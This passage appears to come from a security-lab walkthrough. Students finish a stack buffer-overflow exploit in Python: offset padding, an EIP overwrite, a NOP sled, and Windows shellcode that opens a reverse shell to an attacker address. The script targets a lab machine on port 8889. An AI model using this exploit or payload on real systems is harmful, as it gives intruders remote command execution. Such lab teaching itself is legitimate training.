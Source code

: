 ```
buf += b"\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
buf += b"\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\xd7\x68"
buf += b"\x02\x00\x23\x29\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
buf += b"\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
buf += b"\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
buf += b"\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
buf += b"\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
buf += b"\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
buf += b"\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
buf += b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68"
buf += b"\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
buf += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"
```

With the shellcode generated, students now need to write the Python exploit script, making sure that the IP address of the spawned target machine is used when using the `connect` function:

Code: python

```python
s.connect(("STMIP", 8889))
```

Code: python

```python
import socket
from struct import pack
def exploit():
    buf =  b""
    buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
    buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
    buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
    buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
    buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
    buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
    buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
    buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
    buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
    buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
    buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
    buf += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
    buf += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
    buf += b"\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
    buf += b"\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\xd7\x68"
    buf += b"\x02\x00\x23\x29\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
    buf += b"\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
    buf += b"\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
    buf += b"\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
    buf += b"\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
    buf += b"\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
    buf += b"\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
    buf += b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68"
    buf += b"\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
    buf += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"
    
    offset = 1052
    buffer = b"A" * offset
    eip = pack('<L', 0x0069D2E5)
    nop = b"\x90" * 32
    payload = buffer + eip + nop + buf

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("10.129.43.23", 8889))
    s.send(payload)
    s.close()
```